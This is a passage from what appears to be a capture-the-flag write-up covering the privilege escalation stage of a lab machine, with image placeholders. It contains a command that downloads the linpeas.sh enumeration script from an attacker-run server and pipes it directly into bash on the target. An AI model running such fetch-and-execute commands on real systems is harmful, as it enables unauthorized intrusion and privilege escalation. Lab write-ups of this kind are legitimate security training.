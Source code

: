 ![alt text](images/user_flag.png)

---

## Privilege Escalation

To escalate our privileges we can try at first, using linpeas.sh or try searching for executables with sudo access by the user.

Let's fetch linpeas.sh from our Python server and execute it.
`curl http://10.10.14.48:8000/linpeas.sh | bash`

The tool found an executable binary with root permissions.

![alt text](images/image-15.png)
